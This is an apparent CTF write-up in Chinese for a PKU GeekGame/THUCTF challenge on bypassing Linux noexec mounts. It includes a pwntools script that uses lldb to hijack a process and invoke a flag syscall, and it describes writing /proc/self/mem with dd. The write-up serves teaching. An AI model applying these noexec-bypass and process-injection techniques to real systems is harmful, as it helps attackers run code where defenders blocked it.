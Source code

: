 Linux 中在文件系统挂载时，可以指定 `noexec` 属性，使得文件的可执行权限不生效。下面是一个简单的例子：
```
# mount -o remount,noexec tmpfs /tmp
# ls -al /tmp/hello
-rwxr-xr-x 1 root root 15416 Oct 20 23:11 /tmp/hello
# /tmp/hello
sh: permission denied: /tmp/hello
```

就像上面命令行展示的一样，部分发行版中会以 `noexec` 的属性挂载 `/tmp` 。这样，如果恶意程序直接向 `/tmp` 中写入代码执行就会失败。但事实上，即使系统中所有可写路径都是以 `noexec` 属性挂载的，仍然有多种办法可以绕过这一限制。

**注意：** 本题存档的 [附件](attachment/noexec-give_to_user.tar.xz) 与 PKU GeekGame 线上部署的环境一致，本题存档的 [源码](source/) 与 THUCTF 线上部署的环境一致。后者相比前者做了两处改动：
 - 支持 Flag 的最大长度由 32 上调至 128 ，因为 THUCTF 的 Flag 比较长；
 - 内核配置里启用了 `CONFIG_SECURITY_YAMA` ，关于此参数的详细解释请参考后文 [Flag 2](#flag-2) 部分。

### Flag 1

虽然不允许新程序的直接运行，我们可以尝试劫持正在运行的旧程序。在 Easy 环境中存在调试器 `/bin/lldb` ，则可以通过调试程序的办法进行代码注入，从而执行任意指令，比如：
 - 直接设置 `%rip` 寄存器到某条 `syscall` 指令，然后再按照题目要求设置其他寄存器，单步执行后既可拿到 Flag 。
 - 直接写入内存，用题目要求的指令覆盖程序原本指令，然后继续执行程序。

利用程序如下（也可在 [这里](source/exploits/exp1.py) 找到）：
```python
#!/usr/bin/env python3

from pwn import *

p = process('deploy/run.sh')

p.sendlineafter(b'Enter your choice: ', b'1')

p.sendlineafter(b'/ $ ', b'lldb')

p.sendlineafter(b'(lldb) ', b'target create /bin/busybox')
p.sendlineafter(b'(lldb) ', b'process launch --stop-at-entry')
p.sendlineafter(b'(lldb) ', b'p $rip = 0x4c7ce1')  # syscall
p.sendlineafter(b'(lldb) ', b'p $rax = 548')  # NR_get_flag
p.sendlineafter(b'(lldb) ', b'p $rdi = 0')  # idx
p.sendlineafter(b'(lldb) ', b'p $rsi = ($rsp -= 128)')  # buf
p.sendlineafter(b'(lldb) ', b'si')
p.sendlineafter(b'(lldb) ', b'p (char *)$rsp')

print(p.recvuntil(b'(lldb) '))
```

### Flag 2

在 Hard 环境中没有了调试器，但仍然可以找到其他办法劫持程序。考虑到我们有很多可以进行文件读写的工具（例如 `dd` ），则可以想到探索一下特殊文件系统里的特殊文件。比如 `/proc/self/mem` 事实上允许了以文件的形式访问当前进程地址空间，结合 `dd` 工具能够在任意偏移读写文件，就可以做到直接编辑程序内存。

不过需要注意的一点是，有权限打开 `/proc/[pid]/mem` 等价于当前进行对该进程有调试权限。而在 PKU GeekGame 的线上环境中，因为内核配置没有开启 `CONFIG_SECURITY_YAMA` ，所以任意两个进程只要同用户就可以互相调试，也可以互相打开 `/proc/[pid]/mem` 。这实际上是因为出题人在准备环境的时候不知道 `CONFIG_SECURITY_YAMA` 需要手动开启，因而忘记了开启（ THUCTF 线上环境无此问题，因为修复不支持长 Flag 导致 Flag 被截断问题的时候将前述问题一并修复了）。
